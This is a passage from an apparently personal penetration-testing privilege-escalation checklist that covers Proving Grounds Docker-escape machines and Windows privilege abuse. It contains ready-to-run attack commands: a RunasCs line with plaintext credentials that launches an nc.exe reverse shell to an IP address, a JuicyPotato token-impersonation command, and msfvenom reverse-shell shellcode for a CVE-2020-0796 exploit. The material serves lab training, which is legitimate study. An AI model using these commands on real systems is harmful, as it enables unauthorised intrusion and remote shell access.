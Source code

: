 * [ ] Pspy: `https://github.com/DominicBreuker/pspy`
* [ ] Linpeas

#### Docker Escape Machines

&#x20;On proving grounds, check the following machines:

* [ ] **Sirol -** find hosts disks with `fdisk -l` and mount or abuse `gluster` for privesc
* [ ] **Deployer** - abuse `Dockerfile` instructions with `docker build`
* [ ] **Matrimony** - abuse writable docker sock and build root container.

### WINDOWS

#### Useful commands

* [ ] OS info: `systeminfo`
* [ ] Hidden files: `attrib`
* [ ] File/Directory properties (similar ls -la): `Get-Acl file | fl`
* [ ] Restart `shutdown.exe -r -f -t 1` (may take 5 minutes to fully reset)
* [ ] Run as another user: `./RunasCs_net4.exe svc_mssql trustno1 'c:\temp\nc.exe -e cmd.exe 192.168.49.155 4444'` (must be run in powershell, download: https://github.com/antonioCoco/RunasCs/releases/tag/1.3)
* [ ] Check scheduled tasks: `schtasks /query /fo list /v | findstr "apache"` (similar cat /etc/crontab)
* [ ] Access check: `.\accesschk.exe /accepteula -uwdq "C:\Program Files"`
* [ ] Change file permissions: `cacls <file> /e /p <user>:F` (similar chmod 777)

#### Privileges

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens

* [ ] Privileges: `whoami /priv`
* [ ] SeManageVolumePrivilege: `SeManageVolumeExploit.exe` https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public - then you may run WerTrigger for a root shell: https://github.com/sailay1996/WerTrigger
* [ ] SeImpersonatePrivilege: `juicypotato.exe -t * -l 1338 -c {9E175B6D-F52A-11D8-B9A5-505054503030} -p cmd.exe -a "/c c:/users/nathan/desktop/Windows_10_pro/revshell.exe"`
* [ ] SeBackupPrivilege: `Import-Module .\Acl-FullControl.ps1; Acl-FullControl.ps1 -user <domain>\<low-priv-user> -path c:\users\administrator` - https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1

#### Common checks

* [ ] Look at installed KBs: `wmic qfe list`
  * [ ] KB4540673: https://github.com/danigargu/CVE-2020-0796 (replace line 204 with shellcode from `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.118.3 LPORT=8081 -f dll -f csharp`)
* [ ] Backup folder `C:\backups`
* [ ] Console history `C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
* [ ] Installed software `C:\Program and Files`
* [ ] Check Sticky Notes: `%LocalAppData%\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState` (or similar path)
